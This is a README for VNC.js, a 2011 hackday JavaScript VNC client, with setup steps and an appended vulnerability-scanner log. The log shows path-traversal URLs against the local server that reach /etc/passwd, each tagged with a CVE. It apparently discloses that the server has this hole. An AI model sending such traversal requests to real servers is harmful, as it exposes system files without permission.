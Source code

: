 # VNC.js
VNC.js is a LinkedIn intern hackday 2011 2011 project, read the blog post about VNC.js: http://engineering.linkedin.com/javascript/vncjs-how-build-javascript-vnc-client-24-hour-hackday

You need a VNC server to make this work, like: x11vnc on Ubuntu.

# Disclaimer
This project was developed over 24 sleep deprived hours, the code is messy and undocumented.

# How Use
```
node server.js
open http://127.0.0.1:1024/
```
## but ...

```
[2021-10-12 12:19:30] [CVE-2010-4231] [http] [high] http://127.0.0.1:1024/../../../../../../../../../../../../../etc/passwd
[2021-10-12 12:19:31] [CVE-2017-16877] [http] [high] http://127.0.0.1:1024/_next/../../../../../../../../../../etc/passwd
[2021-10-12 12:19:33] [CVE-2018-3714] [http] [medium] http://127.0.0.1:1024/node_modules/../../../../../etc/passwd
[2021-10-12 12:19:34] [CVE-2017-14849] [http] [high] http://127.0.0.1:1024/static/../../../a/../../../../etc/passwd
[2021-10-12 12:19:36] [CVE-2015-3337] [http] [high] http://127.0.0.1:1024/_plugin/head/../../../../../../../../../../../../../../../../etc/passwd

```